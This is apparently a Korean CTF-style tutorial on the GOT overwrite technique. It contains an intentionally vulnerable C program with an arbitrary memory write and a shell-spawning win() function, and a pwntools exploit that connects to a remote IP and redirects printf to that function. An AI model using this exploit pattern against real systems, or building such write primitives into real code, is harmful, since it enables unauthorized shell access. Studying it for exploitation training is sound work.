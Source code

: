 ### GOT Overwrite
Dynamic Link방식으로 컴파일된 프로그램이 공유 라이브러리를 호출할 때 사용되는 PLT와 GOT를 이용한 공격 기법이다.

#### 공격 방법

- GOT 변조
  
  PLT는 GOT를 참조하고, GOT에는 함수의 실제 주소가 들어있는데 이 GOT의 값을 원하는 함수의 실제 주소로 변조시키면 원래 함수가 아닌 변조된 함수가 호출된다.

예를 들면, printf(“/bin/sh”);에서 printf함수를 system으로 변조시키면 system(“/bin/sh”);가 되어 셸을 실행시킨다.

#### 예제

checksec
![](https://i.imgur.com/CNv7VRj.png)

c코드
```c
// gcc got_overwrite.c -o got_overwrite -O0 -no-pie
#include <stdio.h>
#include <stdlib.h>
  
void initialize(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}
  
void win(){
    system("/bin/sh");
}
  
int main(){
    unsigned long long addr = 0;
  
    initialize();
    printf("Addr : ");
    scanf("%lld", &addr);
    printf("Value : ");
    scanf("%lld", (void *)addr);
    printf("bye byegdg~");
  
    return 0;
}
```

익스플로잇:
첫번째 입력에서 addr에 주소를 넣고 두 번째 입력에서 addr의 주소를 참조한다. 그러니 첫번째 입력에서 printf의 got주소를 넣고 두번째 입력에서 win의 주소를 넣어주면 된다. 여기서 입력을 받을때 %d로 받으니 10진수로 입력을 해야 한다.

```python
from pwn import *
  
# context.log_level = 'debug'
  
p = remote("211.229.250.118", 33032)
  
e = ELF('./baby_got_overwrite')
  
p.sendafter("Addr : ",  '\x34\x32\x31\x30\x37\x32\x38')  
p.sendline()
p.sendafter("Value : ", str(4198909))  
p.sendline()
p.interactive()
```
